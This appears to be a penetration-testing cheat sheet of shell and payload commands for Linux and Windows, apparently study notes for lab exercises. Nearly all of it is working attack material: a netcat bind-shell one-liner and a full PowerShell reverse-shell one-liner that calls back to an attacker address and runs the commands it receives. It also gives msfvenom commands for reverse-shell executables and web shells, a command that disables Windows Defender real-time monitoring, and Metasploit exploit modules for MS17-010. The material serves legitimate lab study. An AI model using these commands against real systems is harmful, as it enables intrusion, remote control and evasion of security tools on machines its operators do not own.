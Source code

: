 | `vim -c ':!/bin/sh'`                                                                                | `Vim` to shell (Vim `escape commands` below)                                                                                |
| `ls -la <path/to/fileorbinary>`                                                                     | Check user `file/binary permissions`                                                                                        |
| `sudo -l`                                                                                           | Check user `sudo permissions`                                                                                               |
| `python -c 'import pty; pty.spawn("/bin/sh")' `                                                     | Spawning s shell with `python`                                                                                              |
| `/usr/share/metasploit-framework/modules/exploits`                                                  | Metasploit modules to get `meterpreter` shell...                                                                            |
| `nc -nlvp 7777`                                                                                     | Start `netcat` listener on port 7777                                                                                        |
| `nc -nv <ip address of computer with listener started><port being listened on>`                     | Connects to a `netcat` listener at the specified IP address and port                                                        |
| `env`                                                                                               | Great way to find out which `shell language` is in use                                                                      |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f` | Uses `netcat` to `bind` a shell (`/bin/bash`) the specified IP address and port                                             |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`      | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`                                         |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`                                       | `Metasploit` exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6` |
| `cp /usr/share/webshells/laudanum/aspx/shell.aspx /home/tester/demo.aspx`                           | Move a copy of `Laudanum` web shell for editing/usage (built in `asp, aspx, jsp, php,` and more)                                                                                                                            |

####   Vim Escape
```shell-session
vim
:set shell=/bin/sh
:shell
```

---

# Windows


`Powershell` one-liner used to connect back to a listener that has been started on an attack box
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \| Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


| Command                                                                                            | Description                                                                                                                       |
| -------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| `Set-MpPreference -DisableRealtimeMonitoring $true`                                                | `Powershell` command using to disable real time monitoring in `Windows Defender`                                                  |
| `use exploit/windows/smb/psexec`                                                                   | `Metasploit` exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec` |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`       | `MSFvenom` command used to generate a Windows-based reverse shell `stageless payload`                                             |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | `MSFvenom` command used to generate a `ASP` web reverse shell payload                                                             |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`      | `MSFvenom` command used to generate a `JSP` web reverse shell payload                                                             |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`      | `MSFvenom` command used to generate a `WAR java/jsp` compatible web reverse shell payload                                         |
| `use auxiliary/scanner/smb/smb_ms17_010`                                                           | `Metasploit` exploit module used to check if a host is vulnerable to `ms17_010`                                                   |
| `use exploit/windows/smb/ms17_010_psexec`                                                          | `Metasploit` exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to `ms17_010`       |